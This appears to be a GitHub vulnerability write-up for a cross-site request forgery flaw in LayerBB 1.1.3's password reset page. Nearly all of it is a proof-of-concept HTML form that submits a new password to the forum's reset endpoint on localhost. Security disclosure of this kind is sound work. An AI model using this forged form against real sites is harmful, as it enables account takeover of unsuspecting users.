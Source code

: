 # Reset Password CSRF
Password reset form from the [forgot password](https://github.com/0xB9/LayerBB-1.1.3-CSRF/blob/master/Forgot_Password.md) page.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form action="http://localhost/members.php/cmd/resetpassword" method="POST" id="LAYER_form" style="padding: 25px;">
    <label for="password">Password</label>
    <input type="password" name="password" id="password" class="form-control">
    <label for="a_password">Confirm Password</label>
    <input type="password" name="a_password" id="a_password" class="form-control">
    <br><br>
    <input type="submit" name="reset" value="Reset Password" class="btn btn-default">
</form>
```
